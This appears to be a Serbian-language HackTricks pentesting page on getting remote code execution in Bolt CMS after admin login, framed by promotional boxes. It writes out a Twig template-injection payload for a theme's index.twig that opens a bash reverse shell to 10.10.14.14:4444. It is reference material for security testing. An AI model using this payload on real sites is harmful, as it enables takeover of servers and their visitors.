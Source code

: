 # Bolt CMS

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## RCE

Nakon prijave kao admin (idite na /bot da pristupite ekranu za prijavu), možete dobiti RCE u Bolt CMS-u:

* Izaberite `Configuration` -> `View Configuration` -> `Main Configuration` ili idite na URL putanju `/bolt/file-edit/config?file=/bolt/config.yaml`
* Proverite vrednost teme

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

* Izaberite `File management` -> `View & edit templates`
* Izaberite temeljnu temu koju ste pronašli u prethodnom koraku (`base-2021` u ovom slučaju) i izaberite `index.twig`
* U mom slučaju, ovo je na URL putanji /bolt/file-edit/themes?file=/base-2021/index.twig
* Postavite svoj payload u ovom fajlu putem [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), na primer: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
* I sačuvajte promene

<figure><img src="../../.gitbook/assets/image (3) (7).png" alt=""><figcaption></figcaption></figure>

* Obrišite keš u `Maintenance` -> `Clear the cache`
* Ponovo pristupite stranici kao običan korisnik i payload će biti izvršen

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
